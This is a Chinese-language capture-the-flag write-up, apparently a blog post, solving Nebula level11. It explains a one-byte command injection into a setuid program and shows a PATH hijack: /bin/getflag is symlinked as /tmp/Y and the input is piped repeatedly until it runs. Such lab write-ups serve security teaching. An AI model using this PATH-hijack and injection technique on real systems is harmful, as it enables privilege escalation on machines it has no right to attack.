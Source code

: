 ```cpp

      blue -= pink;
    }  

    mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
    if(mem == MAP_FAILED) {
      err(1, "mmap");
    }
    process(mem, length);
  }

}
```

这题是整个Nebula中最纠结的一题之一，最主要原因是因为代码和二进制程序不符……我查阅了Google中前几页基本所有的Nebula level11的解题思路，发现能作出结果的代码都是Nebula的新LiveCD之前的。所以这里，我们先回到原本的程序。先将上面的代码用root编译，命名成flag11_old，并修改文件权限、所有者、所有组等和flag11一致，然后开始下面的步骤。

首先映入眼帘的是比前面一次更长的代码-_-||| 不过好在代码逻辑还是比较清晰的。这里既然要执行shell，就会定位到`system()`，而这样就必须要调用`process()`。可以看到调用发生在`main()`的第三个if中。所谓的两种方法可能是指走不同的逻辑去执行`process()`。

观察一下走if为true的这条线：

```cpp
if(length < sizeof(buf)) {
	if(fread(buf, length, 1, stdin) != length) {
		err(1, "fread length");
	}
	process(buf, length);
}
```

第一个条件`length < sizeof(buf)`很简单，可是，`fread()`只会返回0或1，也就是说我们要执行的指令只能是1个字节的。但回车也会占用1个字节，我们可以做个试验：

```bash
level11@nebula:/home/flag11$ ./flag11_old
Content-Length: 1

sh: $'\v\020\367': command not found
level11@nebula:/home/flag11$ ./flag11_old
Content-Length: 1

sh: $'\vP\241': command not found
```

可以看到，这样对于获取到了buf的内容完全是随机的。如果我们输入一个单字符命令，比如`X`，根据`process()`中的代码，命令`X`会变为`Y`，之后进入`system()`执行。测试一下：

```bash
level11@nebula:/home/flag11$ ./flag11_old
Content-Length: 1
X
sh: $'Y\020\321': command not found
```

可以看到`X`命令被当做`Y`命令执行，但由于已经占用了一个字符，则没有办法输入回车。这里可以用一个拼运气的办法，不断测试，直到碰到内存中有0x0A（回车）从而获得运行：

```bash
level11@nebula:/tmp$ ln -s /bin/getflag Y
level11@nebula:/tmp$ export PATH=/tmp:$PATH
level11@nebula:/tmp$ echo -ne "Content-Length: 1\nX" | /home/flag11/flag11_old
sh: $'Y\240S': command not found
level11@nebula:/tmp$ echo -ne "Content-Length: 1\nX" | /home/flag11/flag11_old
sh: $'Y\340d': command not found
level11@nebula:/tmp$ echo -ne "Content-Length: 1\nX" | /home/flag11/flag11_old
sh: $'Y\200b': command not found
level11@nebula:/tmp$ echo -ne "Content-Length: 1\nX" | /home/flag11/flag11_old
You have successfully executed getflag on a target account
```
